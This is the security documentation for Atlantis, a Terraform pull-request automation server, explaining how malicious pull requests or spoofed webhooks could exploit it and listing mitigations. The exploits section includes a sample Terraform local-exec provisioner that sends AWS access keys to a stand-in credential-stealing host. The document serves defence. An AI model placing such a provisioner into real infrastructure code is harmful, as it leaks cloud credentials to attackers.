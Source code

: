 # Security
[[toc]]
## Exploits
Because you usually run Atlantis on a server with credentials that allow access to your infrastructure it's important that you deploy Atlantis securely.

Atlantis could be exploited by
* An attacker submitting a pull request that contains a malicious Terraform file that
  uses a malicious provider or an [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
  that Atlantis then runs `terraform plan` on (which it does automatically unless you've turned off automatic plans).
* Running `terraform apply` on a malicious Terraform file with [local-exec](https://www.terraform.io/docs/provisioners/local-exec.html)
    ```tf
    resource "null_resource" "null" {
      provisioner "local-exec" {
        command = "curl https://cred-stealer.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
      }
    }
    ```
* Running malicious custom build commands specified in an `atlantis.yaml` file. Atlantis uses the `atlantis.yaml` file from the pull request branch, **not** `master`.
* Someone adding `atlantis plan/apply` comments on your valid pull requests causing terraform to run when you don't want it to.

## Bitbucket Cloud (bitbucket.org)
::: danger
Bitbucket Cloud does not support webhook secrets. This could allow attackers to spoof requests from Bitbucket. Ensure you are allowing only Bitbucket IPs.
:::
Bitbucket Cloud doesn't support webhook secrets. This means that an attacker could
make fake requests to Atlantis that look like they're coming from Bitbucket.

If you are specifying `--repo-allowlist` then they could only fake requests pertaining
to those repos so the most damage they could do would be to plan/apply on your
own repos.

To prevent this, allowlist [Bitbucket's IP addresses](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html)
 (see Outbound IPv4 addresses).

## Mitigations
### Don't Use On Public Repos
Because anyone can comment on public pull requests, even with all the security mitigations available, it's still dangerous to run Atlantis on public repos until Atlantis gets an authentication system.

### Don't Use `--allow-fork-prs`
If you're running on a public repo (which isn't recommended, see above) you shouldn't set `--allow-fork-prs` (defaults to false)
because anyone can open up a pull request from their fork to your repo.

### `--repo-allowlist`
Atlantis requires you to specify a allowlist of repositories it will accept webhooks from via the `--repo-allowlist` flag.
For example:
* Specific repositories: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Your whole organization: `--repo-allowlist=github.com/runatlantis/*`
* Every repository in your GitHub Enterprise install: `--repo-allowlist=github.yourcompany.com/*`
* All repositories: `--repo-allowlist=*`. Useful for when you're in a protected network but dangerous without also setting a webhook secret.

This flag ensures your Atlantis install isn't being used with repositories you don't control. See `atlantis server --help` for more details.

### Protect Terraform Planning
If attackers submitting pull requests with malicious Terraform code is in your threat model
then you must be aware that `terraform apply` approvals are not enough. It is possible
to run malicious code in a `terraform plan` using the [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
or by specifying a malicious provider. This code could then exfiltrate your credentials.

To prevent this, you could:
1. Bake providers into the Atlantis image or host and deny egress (outside of provider related endpoints) in production.
1. For external dependency concerns, Implement the provider registry protocol internally, that way you control who has write access to the registry and only allow approved provider implementations.
1. Modify your [server-side repo configuration](https://www.runatlantis.io/docs/server-side-repo-config.html)'s `plan` step to validate against the
   use of not allowed providers or data sources or PRs from not allowed users. You could also add in extra validation at this point, e.g.
   requiring a "thumbs-up" on the PR before allowing the `plan` to continue.

### Webhook Secrets
Atlantis should be run with Webhook secrets set via the `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` environment variables.
Even with the `--repo-allowlist` flag set, without a webhook secret, attackers could make requests to Atlantis posing as a repository that is allowlisted.
Webhook secrets ensure that the webhook requests are actually coming from your VCS provider (GitHub or GitLab).

:::tip Tip
If you are using Azure DevOps, instead of webhook secrets add a [basic username and password](#azure devops basic authentication)
:::

### Azure DevOps Basic Authentication
Azure DevOps supports sending a basic authentication header in all webhook events. This requires using an HTTPS URL for your webhook location.

### SSL/HTTPS
If you're using webhook secrets but your traffic is over HTTP then the webhook secrets
could be stolen. Enable SSL/HTTPS using the `--ssl-cert-file` and `--ssl-key-file`
flags.
